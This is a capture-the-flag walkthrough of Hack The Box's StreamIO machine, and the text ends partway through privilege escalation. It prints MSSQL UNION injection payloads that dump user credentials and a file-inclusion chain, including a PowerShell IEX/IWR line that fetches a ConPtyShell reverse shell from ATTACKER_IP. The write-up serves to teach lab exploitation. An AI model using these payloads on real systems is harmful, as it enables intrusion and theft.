This box is rated medium difficulty on HTB and took me a very long time to complete. It involves us dumping the website's database via MSSQL injection, exploiting local and remote file inclusion to get a reverse shell, and abusing group permissions to read the administrator's LAPS password.

## Scanning & Enumeration
First things first, I begin with an Nmap scan against the given IP to find all running services on the host; Repeating the same for UDP only shows the typical AD services I'd normally expect.

```
$ sudo nmap -sCV -Pn 10.129.19.70 -oN fullscan-tcp

Starting Nmap 7.95 ( https://nmap.org ) at 2026-02-10 02:06 CST
Nmap scan report for 10.129.19.70
Host is up (0.059s latency).
Not shown: 986 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
80/tcp   open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: IIS Windows Server
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-02-10 15:06:42Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: streamIO.htb0., Site: Default-First-Site-Name)
443/tcp  open  ssl/http      Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
| ssl-cert: Subject: commonName=streamIO/countryName=EU
| Subject Alternative Name: DNS:streamIO.htb, DNS:watch.streamIO.htb
| Not valid before: 2022-02-22T07:03:28
|_Not valid after:  2022-03-24T07:03:28
| tls-alpn: 
|_  http/1.1
|_ssl-date: 2026-02-10T15:07:30+00:00; +6h59m59s from scanner time.
|_http-title: Not Found
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: streamIO.htb0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2026-02-10T15:06:52
|_  start_date: N/A
|_clock-skew: mean: 6h59m59s, deviation: 0s, median: 6h59m58s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 59.38 seconds
```

There are 14 ports open and it looks like we're dealing with a Windows machine with Active Directory components. LDAP is leaking a couple domains by name of watch.streamIO.htb and streamIO.htb so I add those to my `/etc/hosts` file. 

A lot of the open ports pertain to LDAP auth and web functionality so I'll mainly focus on SMB and HTTP/HTTPS. Starting with the former since it's a bit quicker, I use netexec to test for guest authentication.



Looks like the guest account has been disabled, meaning that we'll almost certainly need credentials to get anywhere on this box. Knowing that, I head over to the web servers to see if there are any auth mechanisms to bypass or a potential database to dump via injection payloads.

I also fire up Gobuster to search for subdirectories/subdomains to run in the background in order to save on time. Checking out port 80 shows the typical Microsoft IIS Server landing page which means this will be useless unless our scans return any interesting endpoints to check out.



There is a movie streaming site over on port 443 which gives us a username for an employee in the footer. Among the tabs which disclose that the site is built on PHP, is a login/registration panel for the site's internal access.



I attempt to make a new account which displays a success message, however trying to login with it fails. Testing the other input forms on the site like the newsletter and contact forms show that we need to check our inbox, which doesn't seem too likely to work as the login failed.

Swapping to the watch subdomain shows a separate site prompting us to enter our Email ID to get added to their subscription list. I figured that the site must have a way of keeping track of who is and isn't subscribed to the list, meaning a new database.



Here is where I was stuck for a while, the only thing I could think to exploit was some kind of second-order SQLi by having the subscription list store our malicious query and have it be executed at some other point. There was no evidence that this was happening at all, nor any form that would query a DB successfully, so I went back to enumerating.

After a dozen scans, brute forcing `/admin/` endpoints on the main site with PHP extensions rewards me with a message. This states that master.php is only accessible to us through includes.



```
$ gobuster dir -u https://streamIO.htb/admin/ -w /opt/SecLists/Discovery/Web-Content/raft-medium-words.txt -k -x php 
===============================================================
Gobuster v3.8
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     https://streamIO.htb/admin/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /opt/SecLists/Discovery/Web-Content/raft-medium-words.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.8
[+] Extensions:              php
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 157] [--> https://streamIO.htb/admin/images/]
/index.php            (Status: 403) [Size: 18]
/js                   (Status: 301) [Size: 153] [--> https://streamIO.htb/admin/js/]
/css                  (Status: 301) [Size: 154] [--> https://streamIO.htb/admin/css/]
/Images               (Status: 301) [Size: 157] [--> https://streamIO.htb/admin/Images/]
/.                    (Status: 403) [Size: 18]
/fonts                (Status: 301) [Size: 156] [--> https://streamIO.htb/admin/fonts/]
/CSS                  (Status: 301) [Size: 154] [--> https://streamIO.htb/admin/CSS/]
/JS                   (Status: 301) [Size: 153] [--> https://streamIO.htb/admin/JS/]
/master.php           (Status: 200) [Size: 58]
/Css                  (Status: 301) [Size: 154] [--> https://streamIO.htb/admin/Css/]
/Js                   (Status: 301) [Size: 153] [--> https://streamIO.htb/admin/Js/]
/Index.php            (Status: 403) [Size: 18]
/IMAGES               (Status: 301) [Size: 157] [--> https://streamIO.htb/admin/IMAGES/]
/Master.php           (Status: 200) [Size: 58]
/Fonts                (Status: 301) [Size: 156] [--> https://streamIO.htb/admin/Fonts/]
```

Since this page isn't meant to be accessed directly from our browser, we must find another page that loads or uses an include statement to call `master.php`. Fuzzing for PHP pages was a hit on the main page, so I swapped back to the watch subdomain to do the same. This returns a promising result at `search.php`.



```
$ gobuster dir -u https://watch.streamIO.htb/ -w /opt/SecLists/Discovery/Web-Content/raft-medium-words.txt -k -x php 
===============================================================
Gobuster v3.8
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     https://watch.streamIO.htb/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /opt/SecLists/Discovery/Web-Content/raft-medium-words.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.8
[+] Extensions:              php
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/index.php            (Status: 200) [Size: 2829]
/search.php           (Status: 200) [Size: 253887]
/Search.php           (Status: 200) [Size: 253887]
/static               (Status: 301) [Size: 157] [--> https://watch.streamIO.htb/static/]
/.                    (Status: 200) [Size: 2829]
/Index.php            (Status: 200) [Size: 2829]
/blocked.php          (Status: 200) [Size: 677]
/Static               (Status: 301) [Size: 157] [--> https://watch.streamIO.htb/Static/]
/SEARCH.php           (Status: 200) [Size: 253887]
/INDEX.php            (Status: 200) [Size: 2829]
/STATIC               (Status: 301) [Size: 157] [--> https://watch.streamIO.htb/STATIC/]
```

This search function queries the movies database to return results, letting us watch whatever we'd like. Not to mention the unauthorized access to this page, it also may be vulnerable to SQL injection, so I start testing common payloads. 

## SQL Injection
A few tries later gives me a solid understanding of how it works. There are certain statements such as OR which are blocked by a WAF, redirecting us to a message saying that malicious activity has been detected and our session has been timed out for 5 minutes. This isn't actually true but may be a good deterrent for some hackers.



I capture a POST request to the search.php page and find that UNION statements haven't been blacklisted. Using that, I enumerate the amount of columns by increasing them until the page returns to baseline.

```
q=test' UNION SELECT 1,2,3,4,5,6-- -
```



I gather that it has six columns and that numbers 2 and 3 are displayed to the output. Supplying a version command to double check that MSSQL is running shows that we can indeed enumerate the database through this function.

```
Microsoft SQL Server 2019 (RTM) - 15.0.2000.5 (X64) 
 Sep 24 2019 13:48:23 
 Copyright (C) 2019 Microsoft Corporation
 Express Edition (64-bit) on Windows Server 2019 Standard 10.0 <X64> (Build 17763: ) (Hypervisor)
```

Repeating the same for things like `db_name()` and `user` show that we are in the `STREAMIO` database as a `db_user`. I'll refer to [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MSSQL%20Injection.md) as well as [Pentestmonkey's SQL injection cheat-sheet](https://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet) to help me enumerate the DB manually.



Next, I want the tables from the streamIO DB. I make sure to specify the `xtype='u'` which selects the user-defined table.

```
q=test' UNION SELECT 1,concat(name,':',id),3,4,5,6 from streamio..sysobjects where xtype='u'-- -
```



That gives us the user's ID number which we can use to grab columns next. I had to switch to using the string aggregation function to output it to a single line, without it nothing would pop up (I think this was because the application could handle multiple rows, but not too sure).

```
q=test' UNION SELECT 1,(select string_agg(name, '|') from streamio..syscolumns where id=901578250),3,4,5,6-- -
```



Finally, a lot of trial and error grants me the usernames and passwords from the users table in the streamIO database.

```
q=test' UNION SELECT 1,(select string_agg(concat(username,':', password),'|') from users),3,4,5,6-- -
```



_Note: The string_agg function will force all info on one line, all we need to do after is specify which fields and where we're pulling from. Definitely keep that in your arsenal when pentesting MSSQL databases as it has saved me plenty._

Now that we have around thirty hashes, I send them over to Hashcat in hopes to crack at least one and get a valid sign on over WinRM or something similar. Doing so gives us quite a few passwords, however none are reused for anything other than the site, so let's sign in on the main login page.

## Initial Foothold
The only one I found to work was yoshihide's password, and navigating to `/admin` shows that they have higher privileges as well.



We can do a few things here, such as delete users and manage movies, but the main thing that stuck out to me was the option to leave a message for admin. All of these were reflected in the URL via their respective parameter names. I started fuzzing for more parameters in an attempt to discover more functionality to leverage and found that the debug option was enabled for admins.

```
$ ffuf -u 'https://streamio.htb/admin/?FUZZ=id' -w /opt/SecLists/Discovery/Web-Content/burp-parameter-names.txt -H 'Cookie: PHPSESSID=atku8g1v07odi18868tnh0mlg5' -k --fs 1678

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : https://streamio.htb/admin/?FUZZ=id
 :: Wordlist         : FUZZ: /opt/SecLists/Discovery/Web-Content/burp-parameter-names.txt
 :: Header           : Cookie: PHPSESSID=atku8g1v07odi18868tnh0mlg5
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 1678
________________________________________________

debug                   [Status: 200, Size: 1712, Words: 90, Lines: 50, Duration: 58ms]
movie                   [Status: 200, Size: 320235, Words: 15986, Lines: 10791, Duration: 67ms]
staff                   [Status: 200, Size: 12484, Words: 1784, Lines: 399, Duration: 93ms]
user                    [Status: 200, Size: 3186, Words: 325, Lines: 99, Duration: 57ms]
:: Progress: [6453/6453] :: Job [1/1] :: 719 req/sec :: Duration: [0:00:10] :: Errors: 0 ::
```

This was huge as it may just let us read files on the web server. Whenever I see a parameter like this that probably accepts many inputs, I start testing for different ways to have it execute things. Starting with different PHP wrappers shows that only developers have access to use this. 



The server threw an error when I included a known file to load, which didn't happen for other bad requests. I think this means that the server is actually attempting to load the file, but the WAF detects it and snipes the request before it gets displayed.



I try to circumvent this by using the PHP base64 wrapper to read local files, testing the `master.php` file we found earlier. Decoding this gives us the contents of the file and we can move to exploit 

```
�yr<h1>Movie managment</h1>
<?php
if(!defined('included'))
 die("Only accessable through includes");
if(isset($_POST['movie_id']))
{
$query = "delete from movies where id = ".$_POST['movie_id'];
$res = sqlsrv_query($handle, $query, array(), array("Scrollable"=>"buffered"));
}
$query = "select * from movies order by movie";
$res = sqlsrv_query($handle, $query, array(), array("Scrollable"=>"buffered"));
while($row = sqlsrv_fetch_array($res, SQLSRV_FETCH_ASSOC))
{
?>

<div>
 <div class="form-control" style="height: 3rem;">
  <h4 style="float:left;"><?php echo $row['movie']; ?></h4>
  <div style="float:right;padding-right: 25px;">
   <form method="POST" action="?movie=">
    <input type="hidden" name="movie_id" value="<?php echo $row['id']; ?>">
    <input type="submit" class="btn btn-sm btn-primary" value="Delete">
   </form>
  </div>
 </div>
</div>
<?php
} # while end
?>
<br><hr><br>
<h1>Staff managment</h1>
<?php
if(!defined('included'))
 die("Only accessable through includes");
$query = "select * from users where is_staff = 1 ";
$res = sqlsrv_query($handle, $query, array(), array("Scrollable"=>"buffered"));
if(isset($_POST['staff_id']))
{
?>
<div class="alert alert-success"> Message sent to administrator</div>
<?php
}
$query = "select * from users where is_staff = 1";
$res = sqlsrv_query($handle, $query, array(), array("Scrollable"=>"buffered"));
while($row = sqlsrv_fetch_array($res, SQLSRV_FETCH_ASSOC))
{
?>

<div>
 <div class="form-control" style="height: 3rem;">
  <h4 style="float:left;"><?php echo $row['username']; ?></h4>
  <div style="float:right;padding-right: 25px;">
   <form method="POST">
    <input type="hidden" name="staff_id" value="<?php echo $row['id']; ?>">
    <input type="submit" class="btn btn-sm btn-primary" value="Delete">
   </form>
  </div>
 </div>
</div>
<?php
} # while end
?>
<br><hr><br>
<h1>User managment</h1>
<?php
if(!defined('included'))
 die("Only accessable through includes");
if(isset($_POST['user_id']))
{
$query = "delete from users where is_staff = 0 and id = ".$_POST['user_id'];
$res = sqlsrv_query($handle, $query, array(), array("Scrollable"=>"buffered"));
}
$query = "select * from users where is_staff = 0";
$res = sqlsrv_query($handle, $query, array(), array("Scrollable"=>"buffered"));
while($row = sqlsrv_fetch_array($res, SQLSRV_FETCH_ASSOC))
{
?>

<div>
 <div class="form-control" style="height: 3rem;">
  <h4 style="float:left;"><?php echo $row['username']; ?></h4>
  <div style="float:right;padding-right: 25px;">
   <form method="POST">
    <input type="hidden" name="user_id" value="<?php echo $row['id']; ?>">
    <input type="submit" class="btn btn-sm btn-primary" value="Delete">
   </form>
  </div>
 </div>
</div>
<?php
} # while end
?>
<br><hr><br>
<form method="POST">
<input name="include" hidden>
</form>
<?php
if(isset($_POST['include']))
{
if($_POST['include'] !== "index.php" ) 
eval(file_get_contents($_POST['include']));
else
echo(" ---- ERROR ---- ");
}
```

At the very end, I find that the code takes the contents of whatever file is supplied with the include parameter and reads it to the output. So by creating a POST request to `/admin/?debug=master.php` and pointing that parameter towards our machine to host a reverse shell, we can get the server to execute it.

Awesome, Let's try it out! In my first few attempts, I tried a few basic powershell payloads but none seemed to work. Swapping to something more interactive like [ConPtyShell](https://github.com/antonioCoco/ConPtyShell), which seems to be getting more popular for Windows, worked quite well.

For this to execute, we can host a PHP file containing a system command that will grab and invoke the ps1 shell also on our machine.

```
system("powershell IEX(IWR http://ATTACKER_IP/con.ps1 -UseBasicParsing); Invoke-ConPtyShell ATTACKER_IP PORT");
```

The flow will be:
- We make a POST request to /admin/?debug=master.php containing include parameter pointed towards our malicious PHP file
- The PHP file is executed which will grab the .ps1 reverse shell and execute it
- Successful shell connection on our listener as the user yoshihide



## Privilege Escalation
Checking inside C:\Users shows that we do not have an account, so I'll start by dumping the database since we already have the db_admin password from the SQLi attack. This didn't yield much until I realized that there was a backup database as well, which holds a few password hashes. One of them being a local user on the system.


Throwing that hash into [crackstation.net](https://crackstation.net/) or [hashes.com](https://hashes.com/en/decrypt/hash) gives us the plaintext password, in turn letting us [Evil-WinRM](https://github.com/Hackplayers/evil-winrm) onto the box.

At this point we can grab the user flag under her desktop folder and start privilege escalation towards administrator. Skipping ahead, I went ahead and uploaded WinPEAS to the box under a new `C:\Temp` directory and found that there are a few sensitive files under our appdata for FireFox (which is not standard on Windows machines).

I download these files to my attacking machine and use a great tool called [firefox decrypt](https://github.com/unode/firefox_decrypt/blob/main/firefox_decrypt.py) that let's me decrypt Mozilla protected passwords. To use this script, we need at least these four files downloaded from the remote machine:

